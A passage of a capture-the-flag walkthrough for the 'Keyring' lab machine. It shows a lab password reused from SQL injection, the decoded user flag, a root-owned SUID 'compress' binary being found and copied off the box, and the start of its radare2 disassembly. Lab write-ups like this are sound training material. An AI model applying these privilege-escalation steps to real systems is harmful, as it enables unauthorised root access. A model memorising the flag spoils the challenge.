Using the password `Sup3r$S3cr3t$PasSW0RD` obtained from the SQL injection, I successfully switched to the `john` user.

```shellscript
john@keyring:/home$ ls
compress  user.txt
john@keyring:/home$ cat user.txt
[ Keyring - User Owned ]
----------------------------------------------
Flag : VEhNe0Jhc2hfMXNfRnVuXzM4MzEzNDJ9Cg==
----------------------------------------------
by infosecarticles with <3
```

I retrieved the user flag from `user.txt`. The base64 decoded flag is `THM{Bash_1s_Fun_3831342}`.

### 5. Privilege Escalation

To escalate privileges, I first checked for SUID binaries in `john`'s home directory.

```shellscript
john@keyring:~$ ls -la
total 56
drwxr-x--- 5 john john  4096 Jul 19 22:24 .
drwxr-xr-x 3 root root  4096 Jun  7  2021 ..
lrwxrwxrwx 1 john john     9 Jun 20  2021 .bash_history -> /dev/null
-rw-r--r-- 1 john john   220 Jun  7  2021 .bash_logout
-rw-r--r-- 1 john john  3771 Jun  7  2021 .bashrc
drwx------ 2 john john  4096 Jul 19 22:24 .cache
-rwsr-xr-x 1 root root 16784 Jun 20  2021 compress
drwx------ 3 john john  4096 Jul 19 22:23 .gnupg
-rw-r--r-- 1 john john   807 Jun  7  2021 .profile
drwxrwxr-x 2 john john  4096 Jul 19 22:24 .ssh
-rw-rw-r-- 1 john john   192 Jun 20  2021 user.txt
```

I found a SUID binary named `compress` owned by `root`. This is a common privilege escalation vector. I copied the `compress` binary to my Kali machine for analysis.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ scp john@192.168.1.37:/home/john/compress ./compress
100%   16KB   6.1MB/s   00:00
```

I then used `r2` (radare2) to analyze the `compress` binary.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/vulnHub/keyring]
└─$ r2 -d compress
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x7fc07b175440]> aaa
# ... (analysis output) ...
[0x7fc07b175440]> afl
# ... (function list) ...
0x564980e4a189    1     62 main
# ... (function list) ...
[0x7fc07b175440]> pdf @ main
            ; DATA XREF from entry0 @ 0x564980e4a0c1(r)
┌ 62: int main (int argc, char **argv, char **envp);
│           0x564980e4a189      f30f1efa       endbr64
│           0x564980e4a18d      55             push rbp
│           0x564980e4a18e      4889e5         mov rbp, rsp
│           0x564980e4a191      bf00000000     mov edi, 0
│           0x564980e4a196      b800000000     mov eax, 0
│           0x564980e4a19b      e8e0feffff     call sym.imp.setgid     ; int setgid(int gid)
│           0x564980e4a1a0      bf00000000     mov edi, 0
```